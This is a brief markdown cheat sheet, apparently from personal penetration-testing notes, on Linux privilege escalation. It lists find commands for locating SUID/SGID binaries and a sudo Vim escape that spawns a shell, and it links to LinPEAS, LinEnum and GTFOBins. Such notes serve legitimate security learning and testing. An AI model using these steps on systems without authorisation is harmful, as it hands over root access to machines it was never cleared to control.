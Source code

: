 ```yaml
---
title: Escalation
description: Common ways for the attacker to gain and execute commands with elevated privileges
---
```


## SUID / SGID 
Find all the SUID/SGID executables

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -user root -perm /4000
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm -u=s -type f 2>/dev/null
```

## Escaping Vim

User has sudo privilege to run Vim

```bash
sudo vi
:!sh

Poof! ...Shell
```

## Popular Tools

### LinPEAS
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
- [https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

### LinEnum
LinEnum is a simple bash script that performs common commands related to privilege escalation.
- [https://github.com/rebootuser/LinEnum?tab=readme-ov-file](https://github.com/rebootuser/LinEnum?tab=readme-ov-file)

### GTFOBins
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
- [https://gtfobins.github.io/](https://gtfobins.github.io/)

Almost all my Linux Escalation notes, such as the Vim example, are techniques used through GTFOBins and should be your main resource moving past enumeration.